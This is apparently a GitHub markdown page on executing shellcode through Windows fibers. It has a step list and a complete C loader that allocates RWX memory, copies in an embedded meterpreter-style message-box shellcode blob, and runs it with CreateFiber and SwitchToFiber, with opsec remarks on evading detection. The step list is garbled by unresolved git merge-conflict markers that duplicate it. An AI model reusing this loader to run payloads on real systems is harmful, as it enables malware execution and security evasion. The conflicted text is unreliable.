 
This will cause a alert due to this being a meterpreter payload for spawning a messagebox*

Steps:

<<<<<<< HEAD
- [ ]  1`Convert Current Thread to a Fiber- ConvertThreadToFiber()`

- [ ]  2.`Allocate Memory in the Current Process with PAGE_EXECUTE_READWRITE permissions- VirtualAlloc()`

  ​      *** **`Allocating memory with PAGE_EXECUTE_READWRITE is bad opsec****`

- [ ] 3. `Copy shellcode into allocated memory space - CopyMemory()`

- [ ] 4.`Start a New fiber pointing to the allocated memory space -CreateFiber()`

- [ ] 5.`Switch Fiber Context to newly created Fiber- SwitchFiber()`
=======
- [ ]  1`Convert Current Thread to a Fiber- ##### ConvertThreadToFiber()`

- [ ]  2.`Allocate Memory in the Current Process with PAGE_EXECUTE_READWRITE permissions- ##### VirtualAlloc()`

  ​      *** **`Allocating memory with PAGE_EXECUTE_READWRITE is bad opsec****`

- [ ] 3. `Copy shellcode into allocated memory space - ##### CopyMemory()`

- [ ] 4.`Start a New fiber pointing to the allocated memory space - ##### CreateFiber()`

- [ ] 5.`Switch Fiber Context to newly created Fiber- ##### SwitchFiber()`
>>>>>>> 63d34e1a1a2bec6a9bb93652e9e00837b3b51c07

C Code for implementation:



```c
#include <windows.h>


int main(int argc, char **argv){

unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
"\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e\x4c\x8d"
"\x85\x08\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
"\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff\xd5\x53\x68\x65"
"\x6c\x6c\x63\x6f\x64\x65\x00\x53\x75\x63\x63\x65\x73\x73\x00";

LPVOID fiber = ConvertThreadToFiber(NULL);
LPVOID shellLoc= VirtualAlloc(NULL,sizeof(shellcode),MEM_COMMIT|MEM_RESERVE,PAGE_EXECUTE_READWRITE);
CopyMemory(shellLoc,shellcode,sizeof(shellcode));
LPVOID shellFiber= CreateFiber(0,(LPFIBER_START_ROUTINE)shellLoc,NULL);
SwitchToFiber(shellFiber);

```